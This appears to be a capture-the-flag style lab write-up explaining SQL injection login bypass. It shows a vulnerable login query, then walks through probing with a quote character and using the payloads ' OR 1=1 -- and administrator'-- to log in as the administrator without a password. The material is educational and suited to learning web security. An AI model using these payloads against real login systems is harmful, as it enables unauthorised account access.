 # Subverting application logic

- If a user submits the username and password as 'username' and 'password' respectively, the application will check the credentials by performing the following SQL query:

```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password'
```

- In this case, attacker can bypass the login mechanism by submitting the following input:

```sql
username: ' OR 1=1 --
```
for eg: submitting the username `administrator'--` will bypass the login mechanism and log in as the administrator.

-------

# Lab: SQL injection vulnerability allowing login bypass

### SQL injection -> Login function

### To solve: perform a SQL injection attack that logs in to the application as the `administrator` user.

## Analysis:
******************
- When `'` was used in the username and any password, the login directed to the `internal server error` page. This indicates that the username input is vulnerable to SQL injection as it does something in the backend that broke the application.

```sql
SELECT firstname FROM users WHERE username = ''' AND password = 'admin'
```
as internal server error is because of the extra `'` in the query.


- Taking above into consideration, the sql query might be something like this:
```sql
SELECT firstname FROM users WHERE username = 'admin' AND password = 'admin'
```
- The backend code might check like this and password are not stored in text there might be some kind of the encoding technique used to store the password.

- Now, what we try to do is bypass the login using sql injection in username field and ignore the password field.

-let's modify the query to bypass the login mechanism.
```sql
SELECT firstname FROM users WHERE username = 'administrator'--' AND password = 'can be anything here'
```

- The above query will bypass the login mechanism by using the payload `administrator'--` in the username field.

- Now, let's try to login with the username `administrator'--` and any password. We bypass the login system.



